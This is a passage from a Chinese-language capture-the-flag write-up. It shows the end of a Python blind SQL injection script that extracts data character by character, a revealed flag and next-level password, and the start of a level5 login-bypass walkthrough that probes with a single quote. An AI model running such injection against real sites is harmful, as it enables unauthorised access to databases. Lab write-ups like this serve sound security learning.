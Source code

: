 ```
            print "status code error "
        text = resp.content
        #print text
        if text.find('Query returned 1 rows.') == -1:
            h = c-1
            flag=0
        else:
            l = c+1
            flag=1
    print 'c=',c,' flag=', flag
    if flag:
        c+=1
    print 'found c = ', chr(c)
    result+=chr(c)

print 'result = ', result
```

还有python 提供了字符集，不用这么麻烦自己考虑了。
```
>>> help(string)

DATA
    ascii_letters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
    ascii_lowercase = 'abcdefghijklmnopqrstuvwxyz'
    ascii_uppercase = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
    digits = '0123456789'
    hexdigits = '0123456789abcdefABCDEF'
    letters = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'
    lowercase = 'abcdefghijklmnopqrstuvwxyz'
    octdigits = '01234567'
    printable = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTU...
    punctuation = '!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~'
    uppercase = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
    whitespace = '\t\n\x0b\x0c\r '
```


> You can raise your wechall.net score with this flag: e8bcb79c389f5e295bac81fda9fd7cfa
> The password for the next level is: there_is_a_truck

## level5

> Target: Bypass the login
> Disabled: substring , substr, ( , ), mid
> Hints: its not a blind, the password is md5-crypted, watch the login errors

不能进行盲注。那就先输入`admin`用户和随便一个密码，显示
> Some things are disabled!!

看来`admin`这个词给过滤掉了。

然后测试 `username` 是否存在注入点，输入`'`。
> Warning: mysql_num_rows() expects parameter 1 to be resource, boolean given in /var/www/html/hackit/level5.php on line 46
> User not found!
